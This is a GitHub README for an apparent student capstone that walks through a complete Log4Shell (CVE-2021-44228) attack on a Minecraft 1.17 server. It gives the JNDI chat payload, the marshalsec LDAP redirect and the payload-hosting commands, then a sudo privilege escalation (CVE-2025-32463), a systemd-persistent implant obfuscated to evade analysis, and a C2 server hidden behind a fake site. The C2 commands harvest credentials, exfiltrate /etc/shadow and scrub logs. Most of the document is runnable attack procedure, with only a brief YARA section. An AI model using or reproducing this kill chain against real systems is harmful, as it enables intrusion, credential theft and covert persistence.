


# Log4Shell (CVE-2021-44228) PoC — Minecraft 1.17 on Ubuntu Linux

> **For authorized security research and educational purposes only. Run entirely on a local VM.**

---

## Overview

Log4Shell abuses Log4j's JNDI lookup feature. When Minecraft logs a chat message containing `${jndi:ldap://...}`, Log4j 2.14.1 processes it, reaches out to your LDAP server (marshalsec), which redirects it to your HTTP server hosting a malicious Java class. That class executes on the Minecraft server JVM.



**Attack chain:**
```
Minecraft chat input → Log4j 2.14.1 JNDI lookup → marshalsec LDAP server
  → Python HTTP server → Beachhead.class fetched → RCE on server → privilege escalation → Persistent.elf binary fetched → implant added to systemd service → C2 server connection
```
## A Deeper Dive

CVE-2021-44228, seen at https://nvd.nist.gov/vuln/detail/CVE-2021-44228 is a **10.0 Critical** vulnerability discovered in the widely-used **Log4J** Java logging library. This library was used across numerous high-profile Java projects, notably in this case, Minecraft versions 1.7 to 1.18 (https://www.minecraft.net/en-us/article/important-message--security-vulnerability-java-edition). 8 years!

This vulnerability was uncovered in 2021, and developers scrambled to quickly secure their applications. There are two inherent reasons that the vulnerability existed.

The first is a Log4J feature called **Lookups**. This feature allows logs to be enriched by enclosing platform-specific info in the logs, like `${java.os}` to the OS version.

This combined with another 'feature', the ability to **query remote JNDI (Java Naming and Directory) servers** to fetch unknown classes. Input sanitization was not used for these logs, and a payload like:
```
${jndi:ldap://127.0.0.1:1389/Beachhead}
```

would be interpreted by Log4J and reach out to the remote server, grab the implant class, and execute it on the host machine.

In Minecraft's case, custom Java edition servers run by players were highly vulnerable, and could be triggered by simply entering the payload in a chat message.

In this repository, we walk through the necessary steps to execute the entire kill chain, from setup to implant and C2, and show just how devastating the Log4Shell exploit was and still continues to be.

---

## Prerequisites

Install the following on your Ubuntu VM before starting:
Ubuntu 25.10 VM - https://ubuntu.com/download/desktop
```bash
sudo apt update
sudo apt install -y openjdk-17-jdk maven git wget nano
```

Confirm Java version:
```bash
java -version
# should show openjdk 17
```

Next, clone this repository to your machine so you have all the necessary exploit files:
```bash
git clone https://github.com/newmie10/564Capstone.git ~/564Capstone
cd ~/564Capstone/
```

Next, you must build and enable the vulnerable version of `sudo` (CVE-2025-32463) required for our privilege escalation attack:
```
cd ~/564Capstone/sudo/
./configure
make
sudo make install
```

Set this vulnerable binary to your PATH (modern Ubuntu 25.10 uses sudo-rs which does not enable the vulnerable -R flag):
```
export PATH=/usr/local/bin:$PATH
```

You can verify the exploit works by executing the isolated test POC:
```
./../privesc/CVE-2025-32463-POC.sh
```

---

## Directory Structure

Now that you have cloned the repo and built the tools, you will be primarily working out of this hierarchy:

```
~/564Capstone/
├── c2-server/       # Command & Control Docker container (Flask + Dashboard)
├── nginx-proxy/     # Nginx reverse proxy (Stealth cover site + API passthrough)
├── payload/         # Beachhead.java and Persistent.cpp (The implants)
├── privesc/         # sudo exploit (CVE-2025-32463)
├── server/          # Vulnerable Minecraft 1.17 server
├── marshalsec/      # LDAP Redirect server
└── crypto/          # Shared encryption logic (Fernet/AES)
```

---

## Step 0 — Attacker Infrastructure Setup

Before launching the attack, you must have your Command & Control (C2) infrastructure and Stealth Proxy running.

### 1. Build and Run the C2 Server
The C2 server runs in a Docker container to ensure a consistent environment.
```bash
cd ~/564Capstone/c2-server
docker build -t c2-server-draft .
docker run -d -p 5000:5000 --name capstone-c2-server-draft c2-server-draft
```

### 2. Launch the Nginx Stealth Proxy
The Nginx proxy serves a fake marketing page at `http://localhost/` to hide the C2. It transparently forwards `/api/v1/*` traffic to the C2 container.
```bash
cd ~/564Capstone/nginx-proxy
docker compose up -d
```
*Note: The proxy and C2 containers will automatically link via a shared Docker network. If troubles occur, use the manual connection method in the original README.md file located in ~/564Capstone/nginx-proxy/README.md*

---

## Step 1 — Minecraft Server Setup (1.17)

Download Minecraft 1.17 server jar from https://xyrios.com/minecraft/tools/mc-versions/1.17 and put it into ~/564Capstone/server/. Do the same with the client jar and put it into ~/564Capstone/client

```
cd ~/564Capstone/server

```

Accept the EULA and do the initial setup:

```
# first run generates eula.txt
/usr/lib/jvm/java-17-openjdk-amd64/bin/java -Xmx1024M -Xms1024M -jar server.jar nogui

# accept the EULA -> change eula=false to eula=true
nano eula.txt
```
Run the command again if needed.


Start the server with `trustURLCodebase` enabled (not sure if necessary - will test in future):

```
/usr/lib/jvm/java-17-openjdk-amd64/bin/java -Xmx1024M -Xms1024M \
  -Dcom.sun.jndi.ldap.object.trustURLCodebase=true \
  -Dcom.sun.jndi.rmi.object.trustURLCodebase=true \
  -jar server.jar nogui
```

Leave this terminal open.

---

## Step 2 — Minecraft Client (Prism Launcher)

Install Prism Launcher via AppImage to avoid flatpak/FUSE issues on the VM:

```
sudo wget https://prism-launcher-for-debian.github.io/repo/prismlauncher.gpg -O /usr/share/keyrings/prismlauncher-archive-keyring.gpg \
  && echo "deb [signed-by=/usr/share/keyrings/prismlauncher-archive-keyring.gpg] https://prism-launcher-for-debian.github.io/repo $(. /etc/os-release; echo "${UBUNTU_CODENAME:-${DEBIAN_CODENAME:-${VERSION_CODENAME}}}") main" | sudo tee /etc/apt/sources.list.d/prismlauncher.list \
  && sudo apt update \
  && sudo apt install prismlauncher
```
After downloading, run 
```
prismlauncher
```
Click "New Instance", then click Edit on the right side of the setting menu for the instance. Click "Add to Minecraft.jar" on the right side, select Browse, and select your client.jar file from the folder. Then click on that newly created jar in the list, and click Launch in the bottom right. You will have had to login to your Minecraft account on the launcher to play the client. Select Multiplayer -> Direct Connection -> 127.0.0.1:25565 to connect to your world. 

In Prism Launcher:

1. Click **Add Instance**
2. Select Minecraft version **1.17**
Port number can be found in server folder under server.properties. Default is 25565
3. Launch the instance and connect to `localhost:port` or `127.0.0.1:port`


---

## Step 3 — Create the Exploit Payload

Open a new terminal:

```
cd ~/564Capstone/payload
```

Compile it targeting Java 17 bytecode (use the obfuscated filename if you chose that route):

```
/usr/lib/jvm/java-17-openjdk-amd64/bin/javac Beachhead.java
```

**Compile the C++ Persistence Backdoor**
You must compile the `Persistent.cpp` source code into an ELF binary before deploying. It is crucial to statically link it and include the OpenSSL libraries so it runs properly on the victim machine regardless of system libraries:

```
# NOTE: Update the 127.0.0.1 IP inside Persistent.cpp and Beachhead.java 
# to your ATTACKER machine's IP if you are testing across a network!
g++ -std=c++17 -s -static Persistent.cpp -o Persistent.elf -lssl -lcrypto
```


*(Alternatively, you can run `python3 obfuscator.py` to generate and compile the obfuscated variant `PersistentObfuscated.cpp`, which encrypts strings via XOR, renames identifiers, and injects opaque predicates to evade static analysis).*

Confirm the compiled files exist:

```
ls
# Beachhead.java  Beachhead.class  Persistent.elf
```

Start the HTTP servers to serve the payload on ports 8000 and 8888 — keep this terminal open:

```
python3 -m http.server 8000 &
python3 -m http.server 8888 &
```

---

## Step 4 — Set Up Marshalsec (JNDI LDAP Server)

Open a new terminal:

```
cd ~/564Capstone
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
```

Once the build finishes, start the LDAP redirect server per the marshalsec README:

```
cd ~/564Capstone/marshalsec
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer \
  "http://127.0.0.1:8888/#Beachhead"
```

Expected output:
```
Listening on 0.0.0.0:1389
```

Leave this terminal open.

---

## Step 5 — Trigger the Exploit

At this point you should have 4 terminals running, as well as the Minecraft client on Prism and both Docker C2 containers:

| Terminal | Process |
|---|---|
| 1 | Minecraft server (`server.jar`) |
| 2 | Python HTTP server (`python3 -m http.server 8888`) |
| 3 | Marshalsec LDAP server (port 1389) |
| 4 | Free — use this to verify |

In the Minecraft client, press **T** to open chat and send:

```
${jndi:ldap://127.0.0.1:1389/Beachhead}
```

---

## Step 6 — Verify RCE

Immediately watch your terminals:

**Marshalsec terminal** should show:
```
Send LDAP reference result for Beachhead redirecting to http://127.0.0.1:8888/Beachhead.class
```

**Python HTTP servers terminal** should show two separate downloads:
```
127.0.0.1 - - [date] "GET /Beachhead.class HTTP/1.1" 200 -
127.0.0.1 - - [date] "GET /Persistent.elf HTTP/1.1" 200 -
```

Then confirm the privilege escalation and payload execution was successful. You can view the raw terminal output:

```
docker logs -f capstone-c2-server-draft
```

**Or open a web browser and navigate to `http://127.0.0.1:5000/`** to view the live C2 dashboard, queue commands, and view exfiltrated data!

You should see an incoming `[+] Check-in received` containing your victim machine's hostname, followed by a `[+] Result received` block containing full automated recon data. Your reverse shell backdoor is now permanently installed via systemd, communicating via native C++ sockets over AES-128-CBC encrypted payloads, and polling for future commands.

A sample html file depicting a potential C2 dashboard after a successful exploit is located at `C2_Dashboard_Result.html`.

Commands include
```
whoami, pwd, network_sweep, credential_harvest, full_chain, self_destruct
```

Tasks are queued and executed immediately upon receipt, and results are returned to the C2 server. 

Full chain includes all commands from initial_recon to credential_harvest and exfils /etc/shadow along with any other credentials it may find.

Exfil is recieved in the form of a base64 payload, which can be decoded using any base64 decoder.



Self destruct deletes implant and removes it from systemd, preventing further execution, as well as removing files and logs associated with the exploit.


---

## Quickstart
Assuming you have already gone through the setup and build instructions above, you can use the `quickstart.sh` bash script to spin up all server instances in a tmux session. First ensure you have tmux installed:
```bash
sudo apt install tmux -y
```
Additionally make sure your Minecraft server, HTTP server, and LDAP servers are located within `~/564Capstone/`. Then run the script:
```bash
cd ~/564Capstone
./quickstart.sh         # use this to open 5 separate window tabs
./quickstartsplit.sh    # use this to open all terminals split in one window
```
You will now have a tmux session with 5 windows:
1. Prism Launcher open, launch your Minecraft client from here
1. Minecraft server running on 127.0.0.1:25565
1. HTTP Server running on 127.0.0.1:8888
1. LDAP redirect server running on 127.0.0.1:1389
1. C2 Docker server running on 127.0.0.1:5000

To quickly preview each pane use `ctrl+b w`. To switch windows use `ctrl+b [pane-number]`. If using split mode, use `ctrl+b o` to cycle through each pane or `ctrl+b [arrow-keys]` for directional switching.

**Note:** Depending on the malicious class name you're using, you may need to edit the Marshalsec startup command in either script to use 127.0.0.1:1389/#YourClassName. The default class name is `Beachhead` which calls `Persistent.elf`.

You may also clone this repository to directly download all relevant build files, but be forewarned that it may not compile or run correctly on your machine if you are using a different OS / VM or do not have the relevant Java version and all other necessary packages installed. 

**AI Disclaimer:** This README.md has been formatted and outlined with the help of AI (Claude by Anthropic). Other relevant files, such as the C2 server, payload-generator scripts, and helper scripts have also been created using the assistance of AI. 

## Cryptography

All C2 and exfil traffic data is encrypted using the [Fernet](https://cryptography.io/en/latest/fernet/) standard implemented in the Python Cryptography library. This standard uses AES-128 in CBC mode with PKCS7 padding and a random Initialization Vector. It also uses HMAC via SHA-256 for two-way message authentication.

This standard is built in to the Python library, but had to be implemented in a custom script in the C++ implant.

The symmetric secret key is not stored directly on the implant but rather generated at runtime using a split XOR mask. This is to deter any chance of its discovery using static analysis, but is still susceptible to dynamic analysis if the adversary was able to obtain our implant binary prior to deletion.

Both implementations can be found in isolation in the ```crypto/``` directory with small test servers.

**NOTE:** The Python portion requires ```pip install cryptography``` and the C++ code requires the ```-lssl -lcrypto``` flags while building.

## Troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| Marshalsec fires but Python gets no GET request | JVM not following LDAP redirect | Confirm `trustURLCodebase` flags are set on server launch |
| `UnsupportedClassVersionError` | Wrong JDK for server jar | Use JDK 17 for the server, compile payload with direct java17 installation |
| Flatpak fails for Prism | FUSE not supported in VM | Use the AppImage install method |

---

## YARA Rule

A sample YARA rule along with the output of basic static analysis a blue team may perform on our implant if discovered can be found in the ```yara/``` directory. The structure of the rules is based on the limited information that is available from this analysis after all of our obfuscation efforts, and targets basic indicators of a malicious implant such as log scrubbing, use of cryptographic primitives, and static linking.
